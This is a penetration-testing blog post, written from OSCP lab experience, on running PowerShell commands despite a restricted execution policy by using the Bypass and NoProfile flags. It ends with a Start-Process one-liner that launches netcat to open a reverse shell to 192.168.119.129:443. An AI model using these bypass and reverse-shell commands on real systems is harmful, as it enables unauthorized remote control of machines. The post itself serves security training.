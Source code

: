 ```yaml
---
layout: post
title:  "Powershell For Penetration Testers Beating Restricted Policies"
author: nanobyte
date:   2020-05-23
description: PowerShell for Penetration Testing, and how to beat restricted policies to run commands and scripts
tags: PowerShell
---
```


Recently, while I was going for my Offensive Security Certified Professional (OSCP) certificate, I ran into a machine in the labs which had a restricted PowerShell. Simply stated, I could not enter into an interactive PowerShell session or run any PowerShell scripts. PowerShell has several execution policies which can be set on a system, and these execution policies determines which scripts can be run. By default, this is set to "restricted". From Microsoft, restricted "doesn't load configuration files or run scripts. The default execution policy Windows client computers."

However, there is an execution policy which, as penetration testers, we want to have set. That execution policy is "bypass", which states "nothing is blocked and there are no warnings or prompts." Luckily, we are able run a command or script with PowerShell's bypass execution policy set with an option. Now, even though the default restricted policy is set, our commands will still run. To run a PowerShell command with bypass:

{% highlight bash linenos %}
powershell -ExecutionPolicy Bypass -Command "whoami"
{% endhighlight %}

Or, for shorthand:

{% highlight bash linenos %}
powershell -exec bypass -c "whoami"
{% endhighlight %}

Even though the system is restricted, PowerShell can still be leveraged! Let's build on this and take it another step further. When you enter a PowerShell session or run a script, you run it in the context of the current profile. I could check into the PowerShell profile and see what is set within the profile. But by running commands without checking this first, I do not know what is within these profiles. Alternatively, for best practices, I can supply the No Profile flag which will run my script without using any profile:

{% highlight bash linenos %}
powershell -ExecutionPolicy Bypass -NoProfile -Command "whoami"
{% endhighlight %}

Or, another shorthand:

{% highlight bash linenos %}
powershell -exec bypass -nop -c "whoami"
{% endhighlight %}

Now, I can run commands from a restricted PowerShell enviornment without any profile loading. We are almost at the end goal, to execute a command on the system. If we wished to spawn a process, PowerShell has the built in Start-Process cmdlet (command-let). A cmdlet is a lightweight command that can be used within a PowerShell enviornment. There is most likely a cmdlet for anything you wish to accomplish in PowerShell. In my case, I wanted to start netcat for a reverse shell.

Start-Process is a powerful cmdlet, and to better understand it visit <a href="https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/start-process?view=powershell-7" target="_blank">docs.microsoft</a>. For my case, I needed to first define the program to spawn, followed by the arguments. Simply calling `Start-Process nc -e cmd.exe <IP> <PORT>` would fail here. To properly spawn this new process:
  
{% highlight bash linenos %}
powershell -exec bypass -nop -c "& {$prog='C:\\temp\\nc.exe'; $args='-e cmd.exe 192.168.119.129 443'; Start-Process $prog $args }"
{% endhighlight %}

Now, my command will call PowerShell with a bypass in the execution policy, to run the command without any profile set, and run my Start-Process command, properly passing the $prog and $args variables. Now, you might be asking, where did the ampersand come from? In PowerShell, the ampersand is a reserved character for a run call operator. This call operator is needed to force PowerShell to treat the text as a command and not a string, and execute it. For more information, please visit <a href="https://ss64.com/ps/call.html" target="_blank">ss64.com</a>.

And that is it, the above command will now spawn a new process, bypassing the restricted PowerShell execution policy to run my command!

